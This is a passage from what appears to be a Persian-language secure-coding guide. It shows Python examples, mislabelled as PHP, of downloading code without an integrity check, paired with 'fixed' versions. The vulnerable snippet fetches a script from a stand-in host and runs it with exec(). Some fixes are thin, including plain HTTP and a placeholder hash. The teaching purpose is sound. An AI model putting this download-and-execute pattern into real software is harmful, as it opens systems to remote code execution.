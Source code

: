 





##### ✅ کد اصلاح شده 


{% highlight php %}
import requests
import ast

# Fetch and evaluate code from an untrusted source
untrusted_code = requests.get('http://example.com/untrusted_code.py').text
ast.parse(untrusted_code)
{% endhighlight %}








## آسیب پذیری  Download of Code Without Integrity Check

##### 🐞 کد آسیب پذیر


{% highlight php %}
import requests

# Download code without integrity check
code_url = 'http://example.com/malicious_code.py'
response = requests.get(code_url)
code = response.text

# Execute the downloaded code
exec(code)
{% endhighlight %}






##### ✅ کد اصلاح شده 


{% highlight php %}
import requests
import hashlib

# Download code with integrity check
code_url = 'http://example.com/malicious_code.py'
response = requests.get(code_url)
code = response.text

# Verify code integrity
expected_hash = '4a2d8f37ac...'
calculated_hash = hashlib.sha256(code.encode()).hexdigest()
if calculated_hash == expected_hash:
    exec(code)
else:
    print("Integrity check failed. Code execution aborted.")
{% endhighlight %}
